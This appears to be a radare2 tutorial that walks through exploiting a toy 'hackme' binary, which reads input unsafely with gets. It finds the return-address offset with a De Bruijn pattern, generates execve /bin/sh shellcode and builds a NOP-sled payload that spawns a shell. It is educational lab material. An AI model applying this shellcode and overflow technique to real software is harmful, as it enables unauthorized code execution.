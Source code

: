 # Simple Exploit

Let's try to exploit the simplest binary imaginable.

```
r2 -Ad ./hackme
```

First, let's check if any security mechanisms are used.

```
[0xf7704d00]> iI~canary,nx,pic
pic      false
canary   false
nx       false
```

We're in luck! Let's see what the binary does.

```
╒ (fcn) sym.main 36
│           ; arg int arg_4h @ esp+0x4
│           ; DATA XREF from 0x08048317 (entry0)
│           0x08048412      8d4c2404       lea ecx, [esp + arg_4h]     ; 0x4 ; 4
│           0x08048416      83e4f0         and esp, 0xfffffff0
│           0x08048419      ff71fc         push dword [ecx - 4]
│           0x0804841c      55             push ebp
│           0x0804841d      89e5           mov ebp, esp
│           0x0804841f      51             push ecx
│           0x08048420      83ec04         sub esp, 4
│           0x08048423      e8d3ffffff     call sym.play
│           0x08048428      b800000000     mov eax, 0
│           0x0804842d      83c404         add esp, 4
│           0x08048430      59             pop ecx
│           0x08048431      5d             pop ebp
│           0x08048432      8d61fc         lea esp, [ecx - 4]
╘           0x08048435      c3             ret
```

**main** seems to call **play** and nothing else. Let's see what the **play** function does.

```
[0x08048412]> pdf @ sym.play
╒ (fcn) sym.play 23
│           ; var int local_48h @ ebp-0x48
│           ; CALL XREF from 0x08048423 (sym.main)
│           0x080483fb      55             push ebp
│           0x080483fc      89e5           mov ebp, esp
│           0x080483fe      83ec48         sub esp, 0x48
│           0x08048401      83ec0c         sub esp, 0xc
│           0x08048404      8d45b8         lea eax, [ebp - local_48h]
│           0x08048407      50             push eax
│           0x08048408      e8c3feffff     call sym.imp.gets
│           0x0804840d      83c410         add esp, 0x10
│           0x08048410      c9             leave
╘           0x08048411      c3             ret
```

**play** calls **gets**, which is a very unsafe function.

Let's add a breakpoint right after **gets** returns, at `0x0804840d`, and then continue the execution.

```
[0x08048412]> db 0x0804840d
[0x08048412]> db
0x0804840d - 0x0804840e 1 --x sw break enabled cmd="" name="0x0804840d" module=""
[0x08048412]> dc
1234
hit breakpoint at: 804840d
attach 3680 1
[0x0804840d]> 
```

We've given the program some bogus input, but we can change that. We can see that both **eax** and the stack contain our buffer.

```
[0x0804840d]> drr~eax
oeax 0xffffffff  oeax
eax 0xffe38b90  eax stack R W X 'xor dword [edx], esi' '[stack]' (1234)
edx 0xf76e2884  (unk1) edx R W X 'add byte [eax], al' 'unk1'
[0x0804840d]> pxr @ esp!4
0xffe38b80  0xffe38b90  .... eax stack R W X 'xor dword [edx], esi' '[stack]' (1234)
```

We can overwrite eax with a [De Bruijn pattern](https://en.wikipedia.org/wiki/De_Bruijn_sequence) to simulate as if that was fed into stdin.

```
[0x0804840d]> wop?
|Usage: wop[DO] len @ addr | value
| wopD len [@ addr]  Write a De Bruijn Pattern of length 'len' at address 'addr'
| wopO value         Finds the given value into a De Bruijn Pattern at current offset
[0x0804840d]> wopD 100 @ eax
[0x0804840d]> ps @ eax
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
[0x0804840d]> 
```

Now we can continue execution and hope for the best.

```
[0x0804840d]> dc
hit breakpoint at: 8048410
[+] SIGNAL 11 errno=0 addr=0x41614141 code=1 ret=0
[+] signal 11 aka SIGSEGV received 0
```

Ah, yes, the program crashed because the return address on the stack has been overwritten. But at what offset relative to the start of the input buffer?

```
[0x41614141]> wopO $$
77
```

> **Note**: $$ signifies the current seek; quite handy in plenty of cases.

77 is a suspicious offset. That's because endianess needs to be taken into account.

```
[0x41614141]> wopO 0x41416141
76
```

Now we can begin to think about an input which would spawn a shell for us. We are going to need a shellcode. We can write our own in assembly or a tiny file which we can pass to ragg2, but radare2 already comes packed with a 32 bit shellcode that we can use.

```
[0x41614141]> g?
|Usage: g[wcilper] [arg]Go compile shellcodes
| g foo.r         Compile r_egg source file
| gw              Compile and write
| gc cmd=/bin/ls  Set config option for shellcodes and encoders
| gc              List all config options
| gl              List plugins (shellcodes, encoders)
| gs name args    Compile syscall name(args)
| gi exec         Compile shellcode. like ragg2 -i
| gp padding      Define padding for command
| ge xor          Specify an encoder
| gr              Reset r_egg
| EVAL VARS:      asm.arch, asm.bits, asm.os
[0x41614141]> gi exec
[0x41614141]> g
31c050682f2f7368682f62696e89e3505389e199b00bcd80
[0x41614141]> wx `g` @ eax
[0x41614141]> pd 11 @ eax
            ;-- eax:
            0xffce54c0      31c0           xor eax, eax
            0xffce54c2      50             push eax
            0xffce54c3      682f2f7368     push 0x68732f2f
            0xffce54c8      682f62696e     push 0x6e69622f
            0xffce54cd      89e3           mov ebx, esp
            0xffce54cf      50             push eax
            0xffce54d0      53             push ebx
            0xffce54d1      89e1           mov ecx, esp
            0xffce54d3      99             cdq
            0xffce54d4      b00b           mov al, 0xb                 ; 11
            0xffce54d6      cd80           int 0x80
[0x41614141]> 
```

Excellent! Our shellcode is now in eax. All that's left is to set the overwritten return address to point to the stack. Rerun the program and stop at the `ret` instruction, write the shellcode at `eax` and write the stack address at offset 76.

```
[0x0804840d]> wx `g` @ eax
[0x0804840d]> wx 40caacff @ eax+76
[0x0804840d]> pxr @ esp!4
0xffacca8c  0xffacca40  @... eax stack R W X 'xor eax, eax' '[stack]'
```

We can now see that the first value on the stack (the return address) points to our shellcode.

Of course, generating a static payload will not work, since stack addresses are randomized. Since we don't have enough space in our buffer before it reaches and overwrites the return address, we could simply continue to read into our buffer and create a giant nop sled to our shellcode.

Let's write our payload, step by step.

We'll begin by writing 76 'A's until reaching the return address. Then we'll write a stack address. After that, we change the block size to a large value, like 0x1000 and write one full block of NOPs, and finally we write our shellcode.

```
[0x0804840d]> wb 41 @ eax!76
[0x0804840d]> wx 900ea0ff @ eax+76
[0x0804840d]> b 0x1000
[0x0804840d]> wb 90 @ eax+80
[0x0804840d]> wx `g` @ eax+80+0x1000
```

Now we can dump this payload in python format into a file.

```
[0x0804840d]> pcp 80+0x1000+24 @ eax > gen.py
```

Edit the file accordingly, appending:

```
with open('payload', 'wb') as f:
	f.write(buf)
```

Then we can generate our payload and feed it to our binary. If you don't succeed after several attempts, try increasing the NOP block size.

Have fun!
